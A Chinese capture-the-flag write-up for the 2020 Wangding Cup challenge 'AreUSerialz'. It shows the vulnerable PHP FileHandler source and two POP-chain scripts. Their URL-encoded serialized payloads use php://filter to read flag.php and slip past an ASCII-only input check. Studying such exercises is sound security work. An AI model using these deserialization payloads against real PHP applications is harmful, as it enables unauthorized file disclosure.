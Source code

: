 # 原创
：  [网鼎杯 2020 青龙组]AreUSerialz

# [网鼎杯 2020 青龙组]AreUSerialz

#### [网鼎杯 2020 青龙组]AreUSerialz

## 考点

> 
PHP反序列化


## 思路

> 
代码审计后发现，利用read()函数，file_get_contents($this-&gt;filename)，我们只需要传入我们需要的/flag就可以读取flag了；<br/> 需要注意绕过 is_vaild 函数,它规定了序列化内容中只能包含ascii可见字符,如果出现其他的字符则会返回false


## Payload

> 
审计源码


```
&lt;?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this-&gt;process();
    }

    public function process() {
        if($this-&gt;op == "1") {
            $this-&gt;write();
        } else if($this-&gt;op == "2") {
            $res = $this-&gt;read();
            $this-&gt;output($res);
        } else {
            $this-&gt;output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this-&gt;filename) &amp;&amp; isset($this-&gt;content)) {
            if(strlen((string)$this-&gt;content) &gt; 100) {
                $this-&gt;output("Too long!");
                die();
            }
            $res = file_put_contents($this-&gt;filename, $this-&gt;content);
            if($res) $this-&gt;output("Successful!");
            else $this-&gt;output("Failed!");
        } else {
            $this-&gt;output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this-&gt;filename)) {
            $res = file_get_contents($this-&gt;filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: &lt;br&gt;";
        echo $s;
    }

    function __destruct() {
        if($this-&gt;op === "2")
            $this-&gt;op = "1";
        $this-&gt;content = "";
        $this-&gt;process();
    }

}

function is_valid($s) {
    for($i = 0; $i &lt; strlen($s); $i++)
        if(!(ord($s[$i]) &gt;= 32 &amp;&amp; ord($s[$i]) &lt;= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}

```

> 
POP链_1


```
&lt;?php
class FileHandler{
    public $op = 2;
    public $filename = 'php://filter/convert.base64-encode/resource=flag.php';
    public $content;
}

$a = new FileHandler();
echo urlencode(serialize($a));
?&gt;
=&gt;
O%3A11%3A%22FileHandler%22%3A3%3A%7Bs%3A2%3A%22op%22%3Bi%3A2%3Bs%3A8%3A%22filename%22%3Bs%3A52%3A%22php%3A%2F%2Ffilter%2Fconvert.base64-encode%2Fresource%3Dflag.php%22%3Bs%3A7%3A%22content%22%3BN%3B%7D

```

> 
POP链_2


```
&lt;?php
class FileHandler{
    protected $op = 2;
    protected $filename = 'php://filter/convert.base64-encode/resource=flag.php';
    protected $content;
}

$a = new FileHandler();
$a = serialize($a);
$a = str_replace(chr(0), '\00', $a);
$a = str_replace('s:', 'S:', $a);
echo urlencode($a);
?&gt;
=&gt;
O%3A11%3A%22FileHandler%22%3A3%3A%7BS%3A5%3A%22%5C00%2A%5C00op%22%3Bi%3A2%3BS%3A11%3A%22%5C00%2A%5C00filename%22%3BS%3A52%3A%22php%3A%2F%2Ffilter%2Fconvert.base64-encode%2Fresource%3Dflag.php%22%3BS%3A10%3A%22%5C00%2A%5C00content%22%3BN%3B%7D

```

<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210519145730776.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210519145739657.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>
